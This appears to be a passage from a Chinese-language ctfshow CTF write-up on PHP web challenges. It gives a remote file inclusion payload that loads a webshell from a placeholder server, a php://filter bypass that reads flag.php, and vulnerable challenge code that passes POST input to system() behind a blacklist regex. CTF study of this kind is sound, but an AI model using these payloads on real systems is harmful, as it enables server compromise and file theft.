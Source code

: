 远程文件包含

在自己的服务器上写一句话木马进行利用，url为你的服务器ip或者域名，xxxx.php为你写的一句话木马

```
CODE
复制成功?f=http://url/xxxx.php?ctfshow
```

php伪协议绕过

```
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
|ctfshow,表示多个过滤器，所以就可以绕过
```

##  28.利用bash的内置变量来替换字母

###  web118-122

```php
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

```


